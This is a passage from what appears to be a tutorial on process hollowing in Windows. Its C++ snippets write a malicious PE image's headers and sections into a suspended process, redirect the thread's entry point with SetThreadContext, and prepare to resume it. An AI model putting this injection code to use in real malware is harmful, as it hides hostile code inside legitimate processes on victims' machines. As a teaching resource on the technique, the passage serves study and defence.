 Once the memory is allocated, we can write the malicious file to memory. Because we are writing a file, we must first write the PE headers then the PE sections. To write PE headers, we can use `WriteProcessMemory` and the size of headers to determine where to stop.

```cpp
if (!WriteProcessMemory(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress, // Base address of the process
	pMaliciousImage, // Local memory where the malicious file resides
	pNTHeaders->OptionalHeader.SizeOfHeaders, // Byte size of PE headers 
	NULL
)) {
	cout<< "[!] Writting Headers failed. Error: " << GetLastError() << endl;
}
```

Now we need to write each section. To find the number of sections, we can use  `NumberOfSections` from the NT headers. We can loop through `e_lfanew` and the size of the current header to write each section

```cpp
for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) { // Loop based on number of sections in PE data
	PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((LPBYTE)pMaliciousImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER))); // Determines the current PE section header

	WriteProcessMemory(
		target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
		(PVOID)((LPBYTE)pHollowAddress + pSectionHeader->VirtualAddress), // Base address of current section 
		(PVOID)((LPBYTE)pMaliciousImage + pSectionHeader->PointerToRawData), // Pointer for content of current section
		pSectionHeader->SizeOfRawData, // Byte size of current section
		NULL
	);
}
```

5. Set an entry point for the malicious code. At step five, we can use `SetThreadContext` to change `EAX` to point to the entry point.

```cpp
c.Eax = (SIZE_T)((LPBYTE)pHollowAddress + pNTHeaders->OptionalHeader.AddressOfEntryPoint); // Set the context structure pointer to the entry point from the PE optional header

SetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to the stored context structure
);
```

6. Take the target process out of a suspended state. At step six, we need to take the process out of a suspended state using `ResumeThread`.
